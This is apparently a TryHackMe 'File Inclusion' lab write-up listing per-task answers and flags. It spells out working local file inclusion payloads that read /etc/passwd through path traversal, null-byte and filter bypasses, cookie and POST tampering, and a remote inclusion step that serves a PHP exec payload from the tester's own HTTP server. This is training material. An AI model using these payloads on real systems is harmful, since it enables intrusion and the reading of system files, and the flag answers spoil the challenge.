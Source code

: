 # THM - File Inclusion

<br>

http://10.10.137.131/

<br>

## Task 3

### Task 3.1

> file_get_contents


<br>

## Task 4

### Task 4.1

http://10.10.137.131/lab1.php?file=/etc/passwd

> lab1.php?file=/etc/passwd


### Task 4.2

> includes

http://10.10.137.131/lab2.php?file=../../../../etc/passwd


<br>

## Task 5

### Task 5.1

http://10.10.137.131/lab3.php?file=../../../../etc/passwd%00

> /lab3.php?file=../../../../etc/passwd%00


### Task 5.2

> file_get_contents

http://10.10.137.131/lab4.php?file=/etc/passwd/.


http://10.10.137.131/lab5.php?file=....//....//....//....//etc/passwd


### Task 5.3

> THM-profile


### Task 5.4

http://10.10.137.131/lab6.php?file=THM-profile/../../../../etc/os-release

> 12.04

<br>

## Task 8

http://10.10.137.131/challenges/index.php

### Task 8.1

http://10.10.137.131/challenges/chall1.php

```html
<form action="#" method="POST">
	...
</form>
```

input: /etc/flag1

> F1x3d-iNpu7-f0rrn


### Task 8.2

http://10.10.137.131/challenges/chall2.php

```text
(Firefox Browser Developer Edition)

Cookies:
	Name: THM
	Value: Admin
```

```text
(Firefox Browser Developer Edition)

Cookies:
	Name: THM
	Value: ../../../../etc/flag2%00
```

> c00k13_i5_yuMmy1



### Task 8.3

```text
(Firefox Browser Developer Edition)

Resend/New Request:
	POST
	
	Body: file=../../../../etc/flag3%00
```

> P0st_1s_w0rk1in9



### Task 8.4

```shell
echo "<?PHP print exec('hostname'); ?>" > cmd.txt

sudo python3 -m http.server 9876
```

http://10.10.208.238/playground.php?file=http://10.9.2.7:9876/cmd.txt

> lfi-vm-thm-f8c5b1a78692


